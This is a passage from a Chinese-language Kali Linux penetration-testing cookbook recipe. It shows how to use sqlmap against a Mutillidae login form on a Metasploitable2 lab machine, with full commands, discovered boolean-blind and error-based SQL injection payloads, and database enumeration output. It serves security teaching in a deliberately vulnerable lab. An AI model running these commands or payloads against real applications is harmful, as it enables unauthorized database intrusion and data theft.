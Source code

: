 sqlmap 是 Kali 中的集成命令行工具，它通过自动化整个流程，极大降低了手动利用 SQL 注入漏洞所需的经历总量。这个秘籍中，我们会讨论如何使用 sqlmap 来自动化 HTTP POST 请求参数的测试。

### 准备

为了使用 sqlmap 对目标执行 Web 应用分析，你需要拥有运行一个或多个 Web 应用的远程系统。所提供的例子中，我们使用 Metasploitable2 实例来完成任务。 Metasploitable2 拥有多种预安装的漏洞 Web 应用，运行在 TCP 80 端口上。配置 Metasploitable2 的更多信息请参考第一章中的“安装 Metasploitable2”秘籍。

为了在使用 HTTP POST 方法的服务上指定 SQL 注入，我们需要使用`--data`参数来指定 POST 参数字符串。Mutillidae 的登录应用提供了一个登录页面，它通过 POST 方法传递用户名和密码。它就是我们的 SQL 注入攻击目标。看看下面的例子：

```
root@KaliLinux:~# sqlmap -u "http://172.16.36.135/mutillidae/index. php?page=login.php" --data="username=user&password=pass&login-php-submitbutton=Login" --level=5 --risk=3 
 ** {CUT} ** 
sqlmap identified the following injection points with a total of 267 HTTP(s) requests:
--
Place: POST 
Parameter: username    
 Type: boolean-based blind 
 title: "OR boolean-based blind - WHERE or HAVING clause (MySQL comment) "
 Payload: username=-8082' OR (4556=4556)#&password=pass&login-phpsubmit-button=Login

 Type: error-based 
 title: "MySQL >= 5.0 AND error-based - WHERE or HAVING clause "
 Payload: username=user' AND (SELECT 3261 FROM(SELECT COUNT(*),CONCAT( 0x3a61746d3a,(SELECT (CASE WHEN (3261=3261) THEN 1 ELSE 0 END)),0x3a76676 23a,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x) a) AND 'MraR'='MraR&password=pass&login-php-submit-button=Login 
--
[04:14:10] [INFO] the back-end DBMS is MySQL 
web server operating system: Linux Ubuntu 8.04 (Hardy Heron)
web application technology: PHP 5.2.4, Apache 2.2.8 
back-end DBMS: MySQL 5.0 
 ** {TRUNCATED} ** 
```

如果没有指定操作，sqlmap 仅仅会判断是否任何参数存在漏洞，像上面的例子那样。在一系列注入尝试之后，sqlmap 判断出用户名 POST 参数存在`boolean-blind`和`error-based`漏洞。在确认漏洞之后，sqlmap 会执行操作，开始从后端数据库提取信息。

```
root@KaliLinux:~# sqlmap -u "http://172.16.36.135/mutillidae/index. php?page=login.php" --data="username=user&password=pass&login-php-submitbutton=Login" --dbs 
                        ** {CUT} ** 
available databases [7]: 
[*] dvwa 
[*] information_schema 
[*] metasploit 
[*] mysql 
[*] owasp10 
[*] tikiwiki 
[*] tikiwiki195 
                        ** {TRUNCATED} **
```

